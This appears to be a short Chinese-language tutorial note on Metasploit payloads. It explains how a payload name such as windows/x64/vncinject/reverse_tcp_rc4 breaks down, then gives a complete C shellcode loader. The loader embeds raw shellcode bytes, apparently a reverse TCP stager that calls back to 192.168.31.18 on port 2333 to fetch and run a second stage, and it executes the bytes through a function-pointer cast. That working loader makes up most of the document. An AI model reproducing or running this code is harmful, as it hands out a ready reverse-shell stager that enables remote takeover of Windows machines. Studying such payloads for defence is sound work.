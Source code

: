 ![截图](8f5d1c184ac815eed8f4206342ac8023.png)

 windows代表使用的操作系统平台，x64代表系统位数，vncinject代表监听端要做的具体操作（拿到会话后的操作工具），reverse代表反向连接，对方主动来连我们（bind代表正向，我们主动去连对方，不常用）tcp代表了连接方式，采用的什么通信协议，rc4代表加密方式,其他在rc4这个位置的通常代表一些加密方法或者其他特殊手段

# shellcode实现的细节

```
#include <stdio.h>
#include<windows.h>
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x31\xff\x0f\xb7\x4a\x26\x8b\x72\x28"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x01\xd3\x8b\x48\x18"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xc1"
"\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x1f\x12\x68\x02"
"\x00\x09\x1d\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
void main()
{
    ((void(*)(void)) & buf)();
}
```
